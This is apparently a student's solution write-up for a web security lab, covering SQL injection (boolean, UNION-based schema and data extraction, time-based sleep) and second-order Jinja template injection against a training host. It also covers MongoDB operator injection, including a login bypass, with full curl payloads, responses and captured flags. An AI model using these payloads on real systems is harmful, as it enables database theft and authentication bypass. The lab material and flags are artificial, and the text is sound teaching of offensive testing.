


# SQL, noSQL Injection


## Task 0. SQLi - Basic Injection Discovery

The first step in exploiting SQL injection vulnerabilities is to identify which parameters are vulnerable.
Your goal is to identify which parameters in the application's web pages are susceptible to SQL injection attacks. For that you should:

- Access the machine `cyber_websec_0x01` through the VPN.
- Navigate to: http://web0x01.hbtn/a3/sql_injection/. (dont forget to edit your /etc/hosts)
- Search for the vulnerable paramters.
$ `echo "paramters_name" > 0-vuln.txt`

1. Start by navigating through the application's various pages.
2. Pay special attention to any pages that display data from the database, such as product listings or user profiles.
3. Look for URL parameters, form inputs, or any other input fields where user-supplied data is reflected in the page content or influences the data displayed.
4. Use simple payloads such as a single quote (`'`) or a boolean condition (`' OR '1'='1`) appended to parameters in URLs or input fields.
5. Observe the application's response for any errors, unusual behavior, or changes in the displayed data that indicate a successful injection.


**Solution**:
- start `cyber_webse_0x01`, get IP from "Network Information" button
- start openvpn
- edit /etc/hosts to put the IP address `echo "10.42.95.237 web0x01.hbtn" | sudo tee -a /etc/hosts`
- navigate to [http://web0x01.hbtn/a3/sql_injection/](http://web0x01.hbtn/a3/sql_injection/) with Firefox
- on Firefox start network monitor (Ctrl+Shift+E), select "Network" on the top row and seelect "XHR" on the "filter URLs" row.
- on the web page select Status "Paid"
- observe the network monitor, you will see a request to `http://web0x01.hbtn/a3/sql_injection/?status=paid` with a response of a JSON object containing the list of paid orders.
- right click on the request and select "Edit and Resend"
- in the "Request Body" section, change the value of `status` to `paid' OR '1'='1` and click "Send" (inject **Boolean TRUE**)
- observe the response, you will see a JSON object containing the list of all orders, not just the paid ones.
- right click again on the request and select "Edit and Resend"
- in the "Request Body" section, change the value of `status` to `paid' OR '1'='2` and click "Send" (inject **Boolean FALSE**)
- observe the response, you will see a JSON object containing an empty list of orders, indicating that the injection was successful and the application is vulnerable to SQL injection.
- prepare the answer:
```bash
echo "status" > 0-vuln.txt
git add .
git commit -m "0-vuln.txt"
git push
```


## Task 1. SQLi - Extracting Database Information

Now that you've identified a vulnerable parameter, your next task is to find a `flag` ⛳️:

- Extract information about the database itself:
  - Database `Version`.
  - Tables.

---


Helpful Instructions:

1. To determine the Database Version, Craft a payload that causes the application to reveal the version of the database it's using.

- This might involve using functions like `version()` in MySQL or `@`**`@VERSION`** in Microsoft SQL Server.

2. To identify All Table Names: Modify your payload to extract the names of all tables within the database.

- This will likely require knowledge of database-specific system tables or schemas (e.g., `INFORMATION_SCHEMA.TABLES` in MySQL).


## **Solution**:

- on kali command line run a curl GET request to check the response JSON structure:
```bash
URL="http://web0x01.hbtn/api/a3/sql_injection/all_orders"

curl -sG "$URL" \
  --data-urlencode "status=paid' OR 1=1-- " | jq .
# [
#   [
#     1,
#     "Feb 1, 2023",
#     "Pending",
#     "Maroua",
#     "Maroua@web0x01.hbtn"
#   ],
# ...
#   [
#     24,
#     "April 24, 2023",
#     "Pending",
#     "Maroua",
#     "Maroua@web0x01.hbtn"
#   ]
# ]
```

If we're lucky then we're interogating 5 columns - let's verify this:

```bash
curl -sG "$URL" \
  --data-urlencode "status=paid' UNION SELECT NULL,NULL,NULL,NULL,NULL-- " | jq .
# [
#   [
#     null,
#     null,
#     null,
#     null,
#     null
#   ],
#   [
#     3,
#     "April 3, 2023",
#     "Paid",
#     "Ismail",
#     "Ismail@web0x01.hbtn"
#   ],
# ...
#   [
#     23,
#     "Jan 23, 2023",
#     "Paid",
#     "Yosri",
#     "Yosri@web0x01.hbtn"
#   ]
# ]
```


### What does `UNION SELECT NULL,NULL,NULL,NULL,NULL` do?

The payload was:

```
paid' UNION SELECT NULL,NULL,NULL,NULL,NULL--
```

Let's break it down.

| Part                       | Purpose                                                  |
| -------------------------- | -------------------------------------------------------- |
| `paid`                     | The original status value                                |
| `'`                        | Closes the SQL string containing `paid`                  |
| `UNION`                    | Combines results from two SQL queries                    |
| `SELECT`                   | Creates a second result set                              |
| `NULL,NULL,NULL,NULL,NULL` | Supplies five column values                              |
| `-- `                      | Comments out the remainder of the original SQL statement |

### What the backend might be doing

The application's SQL query might look like this:

```sql
SELECT id, date, status, customer, email
FROM orders
WHERE status = 'paid'
```

When we inject our payload, the resulting SQL becomes approximately:

```sql
SELECT id, date, status, customer, email
FROM orders
WHERE status = 'paid'
UNION
SELECT NULL, NULL, NULL, NULL, NULL
-- '
```


### Why use NULL?

`UNION` requires both queries to return the same number of columns, with compatible data types.

`NULL` is useful because it is compatible with integer, text, and date columns.

If the original query returned five columns but our injected `SELECT` returned only four, the database would reject the UNION.

The successful response confirms that five expressions are accepted by the UNION query.

### How to use this for extracting the database version?

Now we can replace one of those `NULL` values with a SQL function.

For example:

```sql
SELECT NULL, NULL, NULL, version(), NULL
```

Instead of returning five NULLs, this asks the database to return its version in the fourth column.

That fourth column corresponds to the customer field in the JSON output, assuming the same mapping as in the previous response.

### Next command: Extract the database version


```bash
curl -sG "$URL" \
  --data-urlencode "status=paid' UNION SELECT NULL,NULL,NULL,version(),NULL-- " | jq .
# [
#   [
#     null,
#     null,
#     null,
#     "SQLite - FLAG: 559731c45deb90846d745be2192f536a",
#     null
#   ],
# ...
```

```bash
echo "559731c45deb90846d745be2192f536a" > 1-flag.txt
git add .
git commit -m "1-flag.txt"
git push
```

**Note**:
> The response identifies SQLite as the database engine. SQLite doesn't normally implement `version()`, so this appears to be a custom function provided by the challenge. SQLite's native version function is `sqlite_version()`.


### Next step: Enumerate database tables

SQLite stores database schema information in a special table called `sqlite_master` (also accessible as `sqlite_schema`).

We can query it to retrieve table names.

Execute this one command:

```bash
curl -sG "$URL" \
  --data-urlencode "status=paid' UNION SELECT NULL,NULL,NULL,group_concat(name, ', '),NULL FROM sqlite_master WHERE type='table'-- " | jq .

# [
#   [
#     null,
#     null,
#     null,
#     "Orders, RandomTable1, RandomTable2, RandomTable3, RandomTable4, RandomTable5, RandomTable6, RandomTable7, RandomTable8, RandomTable9, RandomTable10, not_me, Users",
#     null
#   ],
```

What it does:

- `sqlite_master`: accesses SQLite's schema catalog.
- `WHERE type='table'`: selects only table definitions.
- `name`: retrieves each table's name.
- `group_concat(name, ', ')`: combines all table names into one string.
- `UNION SELECT`: injects that string into the fourth output column.


## Task 2. SQLi - Data Exfiltration from a Specific Table

With knowledge of the database structure, your goal is to extract sensitive data from a specific table.\
The target for this exercise is a flag ⛳️ stored within one of the tables you previously identified.

---


Helpful Instructions:

1. Based on your findings from Task 1, choose a table that likely contains the flag.
2. Develop payloads that will allow you to retrieve the contents of the target table.

- This will involve constructing queries that utilize **`UNION`**` `**`SELECT`** statements or other techniques suitable for data exfiltration.


## **Solution**:

We successfully enumerated 13 tables in the SQLite database:

`Orders`, `RandomTable1`, . . . , `RandomTable10`, `not_me`, and `Users`.

For Task 2: SQLi - Data Exfiltration, we need to determine which table contains the flag.

Rather than blindly extracting data from all 13 tables, we'll first inspect their schemas.

### Discover the columns in each table

SQLite stores table definitions in `sqlite_master`, including the original `CREATE TABLE` statements.

Executing this command:

```bash
curl -sG "$URL" \
  --data-urlencode "status=paid' UNION SELECT NULL,NULL,NULL,group_concat(name || ': ' || sql, char(10)),NULL FROM sqlite_master WHERE type='table'-- " | jq .

#[
#  [
#    null,
#    null,
#    null,
#    "Orders: CREATE TABLE Orders (\n    id INTEGER PRIMARY KEY,\n    date TEXT,\n    status TEXT,\n    customer_name TEXT,\n    customer_email TEXT\n)\nRandomTable1: CREATE TABLE RandomTable1 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable2: CREATE TABLE RandomTable2 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable3: CREATE TABLE RandomTable3 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable4: CREATE TABLE RandomTable4 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable5: CREATE TABLE RandomTable5 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable6: CREATE TABLE RandomTable6 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable7: CREATE TABLE RandomTable7 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable8: CREATE TABLE RandomTable8 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable9: CREATE TABLE RandomTable9 (id INTEGER PRIMARY KEY, value TEXT)\nRandomTable10: CREATE TABLE RandomTable10 (id INTEGER PRIMARY KEY, value TEXT)\nnot_me: CREATE TABLE not_me (\n    id INTEGER,\n    value TEXT,\n    name TEXT\n)\nUsers: CREATE TABLE Users (\n    id INTEGER PRIMARY KEY,\n    name VARCHAR(120),\n    username VARCHAR(120) UNIQUE,\n    password TEXT\n)",
#     null
#   ],
```

### How it works

- `sqlite_master`: SQLite's internal schema catalog.
- `name`: The table name.
- `sql`: The SQL statement used to create the table, including its column names and types.
- `||`: SQLite's string concatenation operator.
- `char(10)`: A newline character.
- `group_concat(...)`: Combines the schema definitions into one result.
- `UNION SELECT`: Places the schema information into the fourth column of the API response.

We discovered table structures:

```sql
Orders: CREATE TABLE Orders (
    id INTEGER PRIMARY KEY,
    date TEXT,
    status TEXT,
    customer_name TEXT,
    customer_email TEXT
)
RandomTable1: CREATE TABLE RandomTable1 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable2: CREATE TABLE RandomTable2 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable3: CREATE TABLE RandomTable3 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable4: CREATE TABLE RandomTable4 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable5: CREATE TABLE RandomTable5 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable6: CREATE TABLE RandomTable6 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable7: CREATE TABLE RandomTable7 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable8: CREATE TABLE RandomTable8 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable9: CREATE TABLE RandomTable9 (id INTEGER PRIMARY KEY, value TEXT)
RandomTable10: CREATE TABLE RandomTable10 (id INTEGER PRIMARY KEY, value TEXT)
not_me: CREATE TABLE not_me (
    id INTEGER,
    value TEXT,
    name TEXT
)
Users: CREATE TABLE Users (
    id INTEGER PRIMARY KEY,
    name VARCHAR(120),
    username VARCHAR(120) UNIQUE,
    password TEXT
)
```


### Inspecting the `not_me` table

Let's start with `not_me` table because its structure differs from the other tables.

```bash
curl -sG "$URL" \
  --data-urlencode "status=paid' AND 1=0 UNION SELECT NULL,NULL,NULL,name || ': ' || value,NULL FROM not_me-- " | jq .
# [
#   [
#     null,
#     null,
#     null,
#     "FLAG: acc05fbd64eb50cfb692da28efc313e9",
#     null
#   ]
# ]
```

```bash
echo "acc05fbd64eb50cfb692da28efc313e9" > 2-flag.txt
git add .
git commit -m "2-flag.txt"
git push
```


## Task 3. SQLi - Time-Based Blind Injection

In the realm of cybersecurity, not all vulnerabilities are visible or apparent. Blind SQL injection is a prime example of such hidden vulnerabilities.\
In this task, you are challenged to detect and exploit a blind SQL injection vulnerability where the only indication of success is a delayed response from the server.\
Your goal is to craft a `payload` that causes the server to return a `flag` ⛳️ if the query execution takes longer than `5` seconds.

---

\*

Helpful Instructions:

1. Understanding Time-based SQL Injection

- Familiarize yourself with how SQL databases can be manipulated to delay responses using specific functions or commands.

2. Your payload should incorporate a command that causes the server to wait or sleep for a specified duration (more than 5 seconds) before responding.

- The exact function or command will depend on the database in use (e.g., `SLEEP()` for MySQL, `pg_sleep()` for PostgreSQL, `WAITFOR DELAY` for SQL Server).

3. Observing Responses:

- Use tools like Burp Suite to send your payloads and accurately measure the response times. This will help you fine-tune your payload to achieve the desired delay.

4. Iterative Testing:

- You may not get it right on the first try. Use an iterative approach, adjusting your payload based on response times, to zero in on a successful exploitation technique.

\*


## **Solution**:

### Test whether the database supports sleep()

We already know the database is SQLite.

SQLite doesn't provide a built-in `sleep()` function, unlike MySQL. However, the challenge has already demonstrated a custom `version()` function, so it might also implement `sleep()`.

We'll test that first.

Executing:

```bash
curl -sS -G "$URL" \
  --data-urlencode "status=paid' AND (SELECT sleep(6)) IS NULL-- " \
  -w '\nHTTP: %{http_code} | Time: %{time_total}s\n'
# [[1,"c160b23374436bb938ac95a9f5bbf7ed","Paid","TIMOUT FLAG","FLAG@web0x01.hbtn"]]
#
# HTTP: 200 | Time: 6.066384s
```


### What are we doing?

The injected expression is:

```sql
paid' AND (SELECT sleep(6)) IS NULL--
```

- `paid'`: Closes the original SQL string.
- `AND`: Adds another condition.
- `SELECT sleep(6)`: Attempts to introduce a 6-second delay.
- `IS NULL`: Makes the expression a Boolean condition.
- `-- `: Comments out the remaining original SQL.

We use a scalar subquery to encourage SQLite to evaluate the sleep function once rather than once per matching order.

The `curl -w` option measures the total HTTP response time.

### Possible outcomes

| Result                   | Meaning                                 |
| ------------------------ | --------------------------------------- |
| Approximately 6 seconds  | **Strong indication that `sleep(6)` works** |
| Error mentioning `sleep` | Function probably isn't available       |
| Immediate HTTP 200       | No evidence of the intended delay       |
| Flag in response         | **Task completed**                          |

```bash
echo c160b23374436bb938ac95a9f5bbf7ed > 3-flag.txt
git add .
git commit -m "3-flag.txt"
git push
```


## Task 4. SQLi - Second-Order Blind Injection

Second-order SQL injection requires a nuanced approach, as the payload you inject at one point is executed at another, often without direct feedback.\
This task involves submitting a payload through a registration form that seems benign until it is processed during login, revealing a flag based on a jinja error where `FLAG` is an accessible variable.\
Your goal is to find the `flag` ⛳️.

- Target URL (Initial Input):
  - Endpoint: `http://web0x01.hbtn/api/a3/sql_injection/second_order/register`
  - Method: `POST`
  - Content-Type: `JSON`
  - Body: `Example`

    {"username": "yosri", "name": "Yosri", "password": "password123"}
- Target URL (Trigger):
  - Endpoint: `http://web0x01.hbtn/api/a3/sql_injection/second_order/login`
  - Method: `POST`
  - Content-Type: `JSON`
  - Body: `Example`

    {"username": "yosri", "password": "password123"}

---

\*

Helpful Instructions:

1. Consider how your payload can be crafted to remain dormant until triggered.
- This might involve manipulating user data that's later used in a SQL query during login.
2. Since you won't see direct output from your payload, think about how you can use timing attacks or monitor application behavior changes to infer success.
2. Use tools like Burp Suite to carefully observe the application's responses and time delays when interacting with the stored payload.
3. Be prepared to refine your payload based on feedback. This might require several attempts to fine-tune how your payload is triggered and detected.

\*


## **Solution**:

### Understand the vulnerability

This task is different from the previous ones.

In a second-order injection, the malicious input is stored first and executed later.

1\. Registration

Store a payload in the `name` field.

2\. Database

The application saves the payload as ordinary user data.

3\. Login

The application retrieves the stored value and potentially evaluates it using Jinja.

4\. Injection triggers

If Jinja evaluates the stored input, we may be able to access the `FLAG` variable.

Because the challenge explicitly mentions Jinja, we'll first test for Server-Side Template Injection (SSTI) using:

```
{{7*7}}
```

If Jinja evaluates this expression, the result will be `49` rather than the literal `{{7*7}}`.

### Register a test account

Execute this command to add new user with a payload in the `name` field:

```bash
curl -sS -X POST \
  'http://web0x01.hbtn/api/a3/sql_injection/second_order/register' \
  -H 'Content-Type: application/json' \
  -d '{"username":"ssti_probe_1026","name":"{{7*7}}","password":"password123"}' \
  | jq .

# {
#   "message": "User created successfully",
#   "success": true
# }
```

We're deliberately putting the payload inside `name`, while using ordinary values for `username` and `password`.


### Trigger the second-order injection

Now we'll log in using the same account.

Execute this command:

```bash
curl -sS -i -X POST \
  'http://web0x01.hbtn/api/a3/sql_injection/second_order/login' \
  -H 'Content-Type: application/json' \
  -d '{"username":"ssti_probe_1026","password":"password123"}'

#HTTP/1.1 200 OK
#Server: nginx/1.22.1
#Date: Mon, 26 Oct 2026 20:30:39 GMT
#Content-Type: application/json
#Content-Length: 107
#Connection: keep-alive
#Vary: Cookie
#Set-Cookie: session=q2v4JKvBHIQ9G2kqWZDRCCcCmLSOahlHcjtOwbdoRGU.-PkttFB-KRtqP0I6Kgy0r3G9rFs; HttpOnly; Path=/
# X-XSS-Protection: 0

# {"message":{"html":"<h1>Welcome Mr 49</h1>","name":"{{7*7}}","username":"ssti_probe_1026"},"success":true}
```

### What are we testing?

When the application processes the login, it may retrieve the stored `name` and insert it into a Jinja template.

We're looking for one of three outcomes:

| Response    | Interpretation |
| ----------- | -------------- |
| `49`        | **Jinja evaluated `{{7*7}}`, confirming template injection** |
| `{{7*7}}`   | The expression was returned literally                                                    |
| Jinja error | The application reached template processing, and the error may reveal useful information |

We use `curl -i` to display the HTTP status and response headers as well as the body, because the challenge specifically mentions a Jinja error.


Notice the difference:

- `name`: `{{7*7}}` is the original value stored in the database.
- `html`: `Welcome Mr 49` is the result after Jinja evaluated that expression.

This proves the application evaluates stored user input as Jinja template code during login.

### Access the FLAG variable

The task description gives us an important clue: `FLAG` is accessible in the Jinja template context.

Jinja allows variables to be evaluated using:

```sql
{{ FLAG }}
```

Instead of performing arithmetic, we'll try to render the value of `FLAG` directly by registering a new account with `{{ FLAG }}` in the `name` field.

```bash
curl -sS -X POST \
  'http://web0x01.hbtn/api/a3/sql_injection/second_order/register' \
  -H 'Content-Type: application/json' \
  -d '{"username":"ssti_flag_1026","name":"{{ FLAG }}","password":"password123"}' \
  | jq .

# {
#   "message": "User created successfully",
#   "success": true
# }
```

### Trigger the stored payload

Now log in with the account we just created to get the flag:

```bash
curl -sS -X POST \
  'http://web0x01.hbtn/api/a3/sql_injection/second_order/login' \
  -H 'Content-Type: application/json' \
  -d '{"username":"ssti_flag_1026","password":"password123"}' \
  | jq .

# {
#   "message": {
#     "html": "<h1>Welcome Mr 6d2261977473a42bb17b9ea982c452aa</h1>",
#     "name": "{{ FLAG }}",
#     "username": "ssti_flag_1026"
#   },
#   "success": true
# }
```

```bash
echo "6d2261977473a42bb17b9ea982c452aa" > 4-flag.txt
git add .
git commit -m "4-flag.txt"
git push
```

## Task 5. NoSQLi - Discovering Injection Vulnerabilities

Unlike SQL databases, NoSQL databases handle queries differently, often using JSON-like structures for queries.\
Your mission is to detect an **endpoint** within the application that is susceptible to NoSQL injection but **`NOT Harmful`**.\
For that you should:

- Navigate to: `http://web0x01.hbtn/a3/nosql_injection`. (dont forget to edit your /etc/hosts)
- Search for the vulnerable paramters.
- $ echo "/api/some_endpoint/here" > 5-vuln.txt

---

\*

Helpful Instructions:

1. Understanding NoSQL Query Structure:
- Familiarize yourself with how queries are constructed in NoSQL databases, such as MongoDB. Knowing the syntax for queries and operators is crucial.
2. Manipulating Input Parameters:
- Experiment with JSON-like syntax in input fields. For example, try injecting `{"$gt": ""}` to see if you can alter query logic.
3. Observing Application Behavior:
- Pay close attention to how the application responds to your injected payloads.  Any change in behavior, such as returning more results than expected or errors, could indicate a vulnerability.
4. Error Messages:
- Sometimes, the application might display error messages that can give you hints about the backend database or its structure.  Use this information wisely to craft more effective payloads.&#x20;

\*


## **Solution**:

### Discover the API endpoints

This task asks for a vulnerable endpoint, not a parameter name.

For example, the expected output format is:

```
/api/a3/nosql_injection/some_endpoint
```

We must discover the real endpoint rather than guess.

### What to do

1. Open Firefox and navigate to:

   `http://web0x01.hbtn/a3/nosql_injection`
2. Press `Ctrl + Shift + E` to open Network Monitor.
3. Select the Fetch/XHR filter.
4. Refresh the page.
5. Interact with the available forms, search fields, or filters.
6. Look for requests to `/api/...` endpoints.

For now, focus on identifying which endpoints retrieve or search data, rather than endpoints that modify or delete records.




### Why?

Unlike traditional SQL injection, MongoDB-style NoSQL injection often involves injecting query operators such as:

```
{"$gt": ""}
```

Here, `$gt` means greater than. If an application passes this object directly into a MongoDB query without validating its structure, the query may behave differently from an ordinary string comparison.

But first we need to identify the actual API requests and their parameters.

The screenshot reveals four API endpoints used by the Holbie Crypto application.

| Endpoint                                 | Method | Purpose          |
| ---------------------------------------- | ------ | ---------------- |
| `/api/a3/nosql_injection/sign_in`        | POST   | Authentication   |
| `/api/a3/nosql_injection/user_info`      | GET    | User information |
| `/api/a3/nosql_injection/market_summary` | GET    | Market summary   |
| `/api/a3/nosql_injection/market_values`  | POST   | Market data      |


### Investigate `market_values`

We're starting with `market_values` because it uses POST requests, returns database-related information, and appears to be a read-only operation.

Before injecting anything, we need to understand its JSON request structure.

### Do this in Firefox

1. In the Network tab, click one of the `market_values` requests.
2. Select the Request tab on the right.
3. Expand the Request Body or JSON section.

We're getting a JSON object with a single key-value pair:

```json
{
	"coin": "HBTNc"
}
```

The subsequent requests ask for different coins, such as `BTC`, `ETH`, and `SOL`.

Once we know the real parameter names, we can test whether one accepts a MongoDB operator such as:

```
{"$ne": null}
```

`$ne` means not equal. If an application inserts this object directly into a MongoDB query, it can change an equality check into a broader condition.

Let's test whether the backend interprets `coin` as a MongoDB query object rather than treating it as a simple string.

### Test NoSQL injection using `$ne`

Normally, the application sends:

```
{"coin": "BTC"}
```

We'll replace `"BTC"` with a MongoDB operator:

```
{"coin": {"$ne": null}}
```

The `$ne` operator means not equal. If passed directly into a MongoDB query, it can match documents where `coin` is not `null`, potentially returning multiple coins instead of one.

### Executing this command

```bash
curl -sS -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/market_values' \
  -H 'Content-Type: application/json' \
  -d '{"coin":{"$ne":null}}' | jq .
# {
#   "coin": "HBTNc",
#   "name": "Holbie Coin",
#   "min": 105000,
#   "id": "HBTNc",
#   "price": "93927.15",
#   "diff1d": 2.77768905639486,
#   "trend1d": "down",
#   "diff7d": 4.603575116846061,
#   "marketCap": "$85.84B",
#   "volume1d": "$381.51M",
#   "summary": [
#     "104592.96",
#     "103217.82",
#     "100667.49",
#     "97654.28",
#     "97728.13",
#     "98857.78",
#     "103221.28",
#     "98988.63",
#     "99409.95",
#     "100910.93",
#     "101268.65",
#     "96720.14",
#     "98857.74",
#     "93687.85",
#     "97832.87",
#     "98843.83",
#     "103345.19",
#     "106643.25",
#     "104155.92",
#     "104284.14",
#     "99213.66",
#     "101462.72",
#     "101520.72",
#     "98251.48",
#     "96536.58",
#     "93927.15"
#   ],
#   "_id": "6adf7a01a45582ab6cd49232"
# }
```

### Interpreting the response:

- Multiple coins returned: Strong indication that the application is interpreting the injected operator.
- **One coin returned**: Potentially interesting, but we need to compare it with a normal request.
- Error or empty response: The input might be validated, or the endpoint might handle objects differently.


The `$ne` injection returned a complete record for Holbie Coin (`HBTNc`), even though we didn't specify `HBTNc`.

This is consistent with a NoSQL injection vulnerability, but we need one more test to distinguish it from a default fallback behavior.

### What might be happening?

The backend could be constructing a MongoDB query like:

```
db.coins.findOne({coin: req.body.coin})
```

the payload:

```
{"coin":{"$ne":null}}
```

would effectively produce:

```
db.coins.findOne({coin: {$ne: null}})
```

This matches a document whose `coin` field is not null. Since `findOne()` returns the first matching document, receiving just one coin doesn't rule out injection.

### Test an invalid coin

Let's see what happens when we request a coin that definitely shouldn't exist.

Executing this single command:

```bash
curl -sS -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/market_values' \
  -H 'Content-Type: application/json' \
  -d '{"coin":"INVALID_COIN_92731"}' | jq .

# null
```

Since the invalid coin returns no record, while `$ne` returns `HBTNc`, that's strong evidence that the backend is interpreting MongoDB query operators.


Save the API endpoint and verify solution:

```bash
echo "/api/a3/nosql_injection/market_values" > 5-vuln.txt
git add .
git commit -m "5-vuln.txt"
git push
```


## Task 6. NoSQLi - Bypassing Login via injection

The application you are targeting uses a NoSQL database for user authentication.\
Due to improper input handling, it's possible to manipulate the login query through injection.\
By crafting a specific payload, you can alter the query logic to bypass authentication checks and log in as any user, including administrative accounts.

Your challenge is to find the `flag` ⛳️ by exploiting a login form.

- Target URL: `http://web0x01.hbtn/a3/nosql_injection`

---

Helpful Instructions:

1. Experiment with injecting JSON-like syntax into the username and password fields.
2. Focus on operators that can modify the logic of the database query, such as `$ne` (not equal).
3. Consider using the `$ne` operator with a value that is always true, such as `{"$ne": null}` or `{"$ne": ""}`, to manipulate query conditions.
4. Try to target specific users by injecting payloads into the username field. Use common usernames like `admin` to attempt gaining administrative access.
5. Observe how the application responds to different payloads. Successful bypass might not always be obvious and could require interpreting subtle changes in response behavior or content.&#x20;

\*


## **Solution**:

We already discovered the login endpoint in Task 5:

```
POST /api/a3/nosql_injection/sign_in
```

### Attempt authentication bypass with `$ne`

Normally, authentication might use a MongoDB query resembling:

```mongodb
db.users.findOne({
  username: req.body.username,
  password: req.body.password
})
```

We want to log in as `admin` without knowing the password.

We'll try this JSON payload:

```
{
  "username": "admin",
  "password": {"$ne": null}
}
```

The `$ne` operator means not equal. If the backend passes this object directly into MongoDB, it could match an administrative account whose password is not `null`.

### Execute this command

```bash
curl -sS -i -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/sign_in' \
  -H 'Content-Type: application/json' \
  -d '{"username":"admin","password":{"$ne":null}}'
# HTTP/1.1 200 OK
# Server: nginx/1.22.1
# Date: Mon, 26 Oct 2026 21:37:54 GMT
# Content-Type: application/json
# Content-Length: 73
# Connection: keep-alive
# Vary: Cookie
# Set-Cookie: session=PHYVAYgFIAtkCftyP5Qm6HyNWvVsA285nNqdKCGBVqw._qVjgH1kvndIhvm6Z5yoP-LEXIw; HttpOnly; Path=/
# X-XSS-Protection: 0
#
# {
#     "status": "error",
#     "message": "Invalid Credentials Provided."
# }
```

### What we're looking for

- Authentication successful: The backend likely interpreted `$ne` as a MongoDB operator, bypassing password verification.
- **Unauthorized**: Either `admin` doesn't exist, the password operator isn't accepted, or the query is protected.
- Error: The backend may reveal useful information about how it processes authentication inputs.

The `-i` flag includes the HTTP response headers, which can also reveal whether a session cookie was issued.


The request reached the server, but authentication failed:

```
{
  "status": "error",
  "message": "Invalid Credentials Provided."
}
```

The HTTP `200 OK` only means the server processed the request. It doesn't mean login succeeded.

### Inject both username and password

Our previous attempt assumed an account named `admin` existed.

This time, we'll use `$ne` on both fields:

```
{
  "username": {"$ne": null},
  "password": {"$ne": null}
}
```

If the application passes these objects directly into a MongoDB authentication query, the conditions could match any account with non-null username and password fields.

Executing this single command:

```bash
curl -sS -i -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/sign_in' \
  -H 'Content-Type: application/json' \
  -d '{"username":{"$ne":null},"password":{"$ne":null}}'

# HTTP/1.1 200 OK
# Server: nginx/1.22.1
# Date: Mon, 26 Oct 2026 21:42:36 GMT
# Content-Type: application/json
# Content-Length: 119
# Connection: keep-alive
# Vary: Cookie
# Set-Cookie: session=KLFPJdNP4Zuf80lzebVHXDI7jjZScKLvCrkW-yyYvAA.# tgVcMSsepyCgu0y65GMfUavMyYk; HttpOnly; Path=/
# X-XSS-Protection: 0
#
# {
#     "status": "success",
#     "message": "Congratulations For your Sign in!\nFLAG: 85ce687f6f297f4544dff20a24493751"
# }
```

If the backend uses something like:

```
db.users.findOne({
  username: {"$ne": null},
  password: {"$ne": null}
})
```

it returns the first matching user without validating their actual password.

save the flag:

```bash
echo "85ce687f6f297f4544dff20a24493751" > 6-flag.txt
git add .
git commit -m "6-flag.txt"
git push
```


## Task 7. NoSQLi - Enumerating for Profit

After mastering the technique of bypassing the login mechanism through NoSQL injection, your ultimate challenge within this project emerges.\
This task requires you to leverage your **NoSQL injection** skills further to enumerate login attempts.\
Your mission: identify a **user profile** with sufficient balance and engage in cryptocurrency exchange activities on the platform to accumulate at least 1 HBTNc coin.\
Success in this endeavor will not only demonstrate mastery of NoSQL injection techniques but also highlight your ability to apply these skills strategically for financial gain within the simulation.

